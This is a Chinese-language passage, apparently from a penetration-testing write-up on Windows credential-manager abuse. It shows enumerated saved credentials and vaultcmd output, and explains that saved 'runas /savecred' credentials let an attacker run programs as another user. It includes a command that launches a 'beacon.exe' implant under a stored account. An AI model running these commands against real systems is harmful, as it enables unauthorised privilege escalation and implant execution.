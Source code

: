 ```plaintext
资源：Domain:target=TERMSRV/172.20.10.5
标识：RAINGRAY\test$
隐藏：否
漫游：否
属性 (架构元素 ID，值): (100,2)

凭据架构：Windows 域密码凭据
资源：Domain:target=DESKTOP-PMCO6SN
标识：hwyx
隐藏：否
漫游：否
属性 (架构元素 ID，值): (100,3)
属性 (架构元素 ID，值): (101,SspiPfc)
```

通过回显能发现已保存凭据的账户有哪些，其中很可能以前有使用过 runas 运行过 /savecred 选项，此选项作用是为这个用户记住密码，第一次运行会提示输入密码会存入凭据管理器中，后面再带上这个选项运行则无需密码。因此只要关注 Windows 凭据中的用户名统统尝试一遍撞撞运气。

```plaintext
runas /savecred /user:user cmd.exe

runas /savecred /user:domain\user beacon.exe
```

vaultcmd /listcreds 参数，中文和英文 Shell 下关键字不同，可以通过 `vaultcmd /list` 查看输出结果保管库的值，这里就写的是 Web 凭据和 Windows 凭据。

```plaintext
C:\Users\gbb>vaultcmd /list
当前加载的保管库：
        保管库：Web 凭据
        保管库 GUID: 4BF4C442-9B8A-41A0-B380-DD4A704DDB28
        位置：C:\Users\gbb\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

        保管库: Windows 凭据
        保管库 GUID: 77BC582B-F0A6-4E15-4E80-61736B6F3B29
        位置: C:\Users\gbb\AppData\Local\Microsoft\Vault
```

命令所查的内容在控制面板可以查看。
